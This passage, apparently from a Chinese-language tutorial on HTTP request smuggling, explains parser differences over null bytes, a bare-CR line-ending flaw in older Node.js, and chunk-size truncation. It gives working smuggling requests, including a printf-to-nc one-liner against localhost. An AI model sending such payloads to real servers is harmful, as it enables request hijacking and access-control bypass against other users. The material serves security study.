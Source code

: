有些中间件处理以上的请求时，当遇到`\0`的时候会继续换行读取，这样也会导致产生解析差异。

## CRLF

RFC3.5：

>   尽管起始行和标题字段的行终止符是序列 CRLF，但接收者可以将单个 LF 识别为行终止符并忽略任何前面的 CR。

也就是说可以直接使用LF作为EOL，在NodeJs<5.6.0中，是这样处理的：

```
[CR] + ? == [CR][LF]		//true
```

假设我们有一个正常解析 CRLF 的 Front 服务器，后端是有该漏洞的 Node.js 服务，我们可以发送以下请求：

```http
GET / HTTP/1.1\r\n
Host:localhost\r\n
Dummy: Header\rZTransfer-Encoding: chunked\r\n
Content-length: 52\r\n
\r\n
0\r\n
\r\n
GET /tmp HTTP/1.1\r\n
Host:localhost\r\n
Dummy:Header\r\n
```

Front服务器会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个请求头，而后端NodeJs服务器会认为`\rZ`是一个换行，按照TE>CL，会认为这是两个请求。

## Size Issue

有些中间件在解析快大小的时候会对块长度进行长度截断，比如：``0000000000000000000000000000042`只取`00000000000000000`

```c
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

## Http version
